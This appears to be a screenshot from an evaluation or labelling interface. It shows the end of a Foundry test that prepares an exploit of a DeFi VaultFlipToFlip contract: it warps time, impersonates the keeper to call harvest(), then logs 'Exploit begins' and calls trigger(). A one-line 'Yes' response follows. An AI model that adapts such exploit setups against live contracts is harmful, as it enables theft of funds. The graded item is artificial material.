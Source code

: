 │             "After X blocks, the keeper of VaultFlipToFlip calls harvest()"                                                                                                                                                                           │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         cheat.warp(1655908339);                                                                                                                                                                                                                       │
│         cheat.roll(7556391);                                                                                                                                                                                                                          │
│                                                                                                                                                                                                                                                       │
│         // Keeper needs to call flip.harvest() so that flip.earned(address(this)) > 0                                                                                                                                                                 │
│         cheat.prank(keeper);                                                                                                                                                                                                                          │
│         (bool success, ) = address(flip).call(                                                                                                                                                                                                        │
│             abi.encodeWithSignature("harvest()")                                                                                                                                                                                                      │
│         );                                                                                                                                                                                                                                            │
│         require(success, "flip.harvest() fails");                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                       │
│         emit log_string("Exploit begins:");                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                       │
│         trigger();                                                                                                                                                                                                                                    │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "Yes"}                                                                                                                                                                                                                                          │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯